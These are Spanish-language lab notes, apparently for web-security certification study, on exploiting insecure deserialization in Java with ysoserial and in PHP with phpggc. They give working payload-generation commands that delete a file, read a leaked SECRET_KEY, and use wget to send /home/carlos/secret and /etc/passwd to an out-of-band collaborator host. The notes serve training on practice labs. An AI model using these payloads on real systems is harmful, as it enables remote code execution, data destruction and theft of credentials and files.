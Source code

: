 * Este ataque nos permite explotar la cadena de gadgets de la deserializacion insegura de JAVA con Apache Commons con la insercion de un objeto malicioso, usando `ysoserial` como herramienta de ataque. 
* Podemos eliminar `/home/carlos/morale.txt`
* Directorio donde tengo la herramienta: `/Users/juanfelipeoz/Documents/ysoserializer-tool` o en mi distro debian. (me figuro mas bien usar el atque en Debian)

Para el BSCP algo como: 

```js
//Un super consejo que doy: Si usan Java deserialization scanner y la app es vulnerable a deserialization insecure, les recomiendo que el commonsCollection que les arroje la herramienta lo prueben pero si no ven respuestas en el collaborator empiecen a tantear todos TODOS, commonscollections3,4 5 o 6 o 7 hasta que vuelvan a collaborator y vean que ya han recibido respuesta HTTP con el secret. 

CommonsCollections4 '/usr/bin/wget --post-file=/home/carlos/secret https://OASTIFY.COM'

//o al revés --- MEJOR ESTE. 
CommonsCollections4 '/usr/bin/wget https://OASTIFY.COM --post-file=/home/carlos/secret'
```

```js
1. comando: en mi ruta: /Users/juanfelipeoz/Documents/ysoserializer-tool en mi MacOS
java \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED \
  -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64

2. luego codearla a url
	1. REEMPLAZAR LA COOKIE en SESSION COOKIE -LISTO!

//comando RESUMIDO: @botesjuan pero es para versiones de java inferiores a la 15
java -jar path/to/ysoserial.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```

### LAB: PHP Deserialization with pre-built Gadget Chain `phpggc repo` `SECRET_KEY`

La ventaja con este es que no tengo que instalar nada, podemos correrlo desde un codespaces en github -> https://legendary-dollop-w4pvp7746xqcgv9p.github.dev/

* Este ataque nos permite explotar la deserializacion porque implementa un marco conocido php para el proceso de deserializacion en php, y podemos inyectarle un objeto preconstruido con una gadget chain que nos dará acceso a `RCE` y delete `/home/carlos/morale.txt`

```js
1. el DOM de la aplicacion nos revela un comentario en html: 
<!--<a href=/cgi-bin/phpinfo.php>Debug</a>-->
1. Para poder generar el error y ver la versión vulnerable, podemos modificar la cookie añadiendo lo que sea y se nos revelará la versión vulnerable con la info de que Framework de php usa y con base en ese usaremos el **PHPGGC** con el framework especifico para crear la carga util.
2. La verdad es que no me voy a matar la vida usando PHP sino más bien con el codespaces de github →
3. Request the `/cgi-bin/phpinfo.php` file to find the leaked `SECRET_KEY` information about the website.
4. Generate a Base64-encoded serialized object that exploits an RCE gadget chain in Symfony-> `desde github CODESPACES`
	1. ./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64
		1. `./phpggc Symfony/RCE4 exec 'wget http://OASTIFY.COM --post-file=/home/carlos/secret' | base64 -w 0` //esto es como pal caso de divulgar el secret, durante el BSCP.
		2. Otro ejemplo que si puede servir para este caso es filtrar los /etc/passwd que en este caso si se pueden retornar en el lab -> 
		./phpggc Symfony/RCE4 exec 'wget http://COLLAB.oastify.com --post-file=/etc/passwd' | base64
```